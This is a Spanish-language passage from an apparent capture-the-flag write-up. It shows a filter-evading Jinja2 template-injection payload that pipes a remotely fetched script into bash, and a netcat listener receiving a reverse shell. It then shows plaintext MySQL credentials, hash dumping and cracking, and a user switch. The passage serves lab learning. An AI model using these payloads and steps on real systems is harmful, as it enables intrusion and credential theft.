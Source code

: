 Y ahora vamos a decirle a la web que nos ejecute el comando de la siguiente manera, no sin antes montarnos un server en python desde donde está el archivo .html y ponernos en escucha con `nc -nlvp 443`:

![image](../zimages/Pasted%20image%2020241103193001.png)

Que la solicitud en texto plano sería así:

```html
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl http://10.10.14.13/ | bash')|attr('read')()}}
```

Si ahora nos fijamos en la terminal que teníamos en escucha con NetCat, recibimos una reverse shell como "www-data":

![image](../zimages/Pasted%20image%2020241103193234.png)

Vemos que si hacemos el tratamiento de la TTY con "script /dev/null -c bash" se peta la shell, así que vamos a hacerlo con el siguiente comando de python:

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ahora ya seguimos los pasos de siempre y lo tenemos:

![image](../zimages/Pasted%20image%2020241103193455.png)

Si hacemos ls en el directorio actual, tenemos un script de python "app.py", vamos a hacerle un cat y concatenamos mediante un pipe el comando "less":

![image](../zimages/Pasted%20image%2020241103193636.png)

Ahora que tenemos unas credenciales de una base de datos mysql, vamos a intentar entrar:

```bash
mysql -uiclean -ppxCsmnGLckUb capiclean
```

Vamos a pedirle que nos muestre las tablas de esta base de datos:

![image](../zimages/Pasted%20image%2020241103193858.png)

Vamos a entrar en users y listar todo lo que haya dentro:

![image](../zimages/Pasted%20image%2020241103193945.png)

Tenemos 2 hashes, vamos a intentar decodearlos en https://crackstation.net/:

![image](../zimages/Pasted%20image%2020241103194100.png)

Vemos que nos saca sólo la contraseña del usuario "consuela", vamos a intentar migrar desde la terminal con `su consuela`:

![image](../zimages/Pasted%20image%2020241103194206.png)
